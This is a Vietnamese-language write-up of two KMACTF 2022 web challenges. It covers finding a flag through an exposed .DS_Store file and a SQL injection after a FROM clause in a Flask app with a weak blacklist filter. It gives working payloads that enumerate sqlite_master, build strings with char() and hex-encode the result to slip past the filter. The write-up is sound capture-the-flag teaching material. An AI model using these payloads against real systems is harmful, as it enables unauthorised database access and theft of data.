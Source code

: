 # KMACTF 2022 dot 2

## Find me

![Screenshot (924)](https://user-images.githubusercontent.com/71699412/174470532-485f08d4-d8ef-4873-b924-df79b0887f1b.png)

Dựa vào tên challenge, thử download hết website và grep nằm tìm flag:
```bash
wget -r -np http://45.32.110.58:20101/ -O find_me # --recursive; --no-parent
grep -ri 'kmactf'  45.32.110.58:20101 # grep pattern của flag
```

Nhưng không thấy gì, ta dùng dirsearch với default wordlist để bruteforce:

![dir](https://user-images.githubusercontent.com/71699412/174470542-2910d4d5-5376-4d09-a681-de95b41b5155.jpg)

Tìm được thư mục: `/.DS_Store`

![Screenshot (925)](https://user-images.githubusercontent.com/71699412/174470554-7b853aa7-1157-4ef9-abbf-bcf081d9ff21.png)

**flag**: `KMACTF{I wont run away anymore. I wont go back on my word. That is my ninja way! Dattebayo!}`

## Inject me

**Source**:
```python
from flask import Flask, render_template, render_template_string, request
import sqlite3
import re

# ............

def waf(str):
    if (len(str)) > 85 or "union" in str.lower():
        return False

    black_list = ["'", '"', '*', '\\', '/', '#', ';', '-']
    for c in black_list:
        if c in str:
            str = str.replace(c, "")

# ......

@app.route('/query',methods = ['GET'])
def addrec():
    if request.args.get("query") != "":
        query = request.args.get("query")
    
    query = waf(query)
    
    if query == False:
        return render_template_string("Dont cheat my fen =))")
    else:
        try:
            cur = get_db().execute('SELECT msg FROM ' + query + ' where msg like "%" and msg not like "%KMACTF{%" limit 1')
            result = cur.fetchall()

            if len(result) == 0:
                return render_template_string("No result")

            cur.close()
            return render_template("index.html", result = result)
        except:
            return render_template_string("Something went wrong")

# ............
```

```sql
SELECT msg FROM ' + query + ' where msg like "MSG-%" and msg not like "%KMACTF{%" limit 1
```
SQLi sau FROM statement.

![Screenshot (919)](https://user-images.githubusercontent.com/71699412/174470125-c56d26f1-adbd-4513-b025-dc0d7012adf1.png)

Ở đây ta chưa biết table name lẫn column name. Ta có thể dùng kĩ thuật `nested query` để lấy `sql` từ `sqlite_master`. Tuy nhiên, column trả về ở đây buộc phải là `msg` do đó ta alias `sql` thành `msg`.

```
(select sql as msg from sqlite_master)
```

![Screenshot (923)](https://user-images.githubusercontent.com/71699412/174470195-49853851-f522-496c-9671-33dae1752c55.png)

Tuy nhiên trả về `No result` là bởi sau `where`, `msg` phải bắt đầu với `MSG-` do đó ta cần thêm prefix là `MSG-`. Ngoài ra, các kí tự như `'` hay `"` bị block nên ta dùng function `char()` để bypass.
```
(select (char(77, 83, 71, 45) || sql) as msg from sqlite_master)
```

![Screenshot (921)](https://user-images.githubusercontent.com/71699412/174470203-6564543d-66c2-41b1-8fdb-4bb290500fc5.png)

Có column và table ta lấy flag thôi, chú ý tiếp điều kiện `not like "%KMACTF{%"` hay trong result trả về không thể chứa cụm trên, để bypass ta encode result thành hex.

```sql
(select (char(77, 83, 71, 45) || hex(flag)) as msg from flag)
```

![Screenshot (922)](https://user-images.githubusercontent.com/71699412/174470225-b3caf1d9-cc85-48d8-94b4-dae3753db1b5.png)

**Convert**:
```bash
echo 4B4D414354467B4A7573742073696D706C652073716C20696E6A656374696F6E207769746820736F6D6520747269636B737D | xxd -r -p
```

**flag**: `KMACTF{Just simple sql injection with some tricks}`

## pass
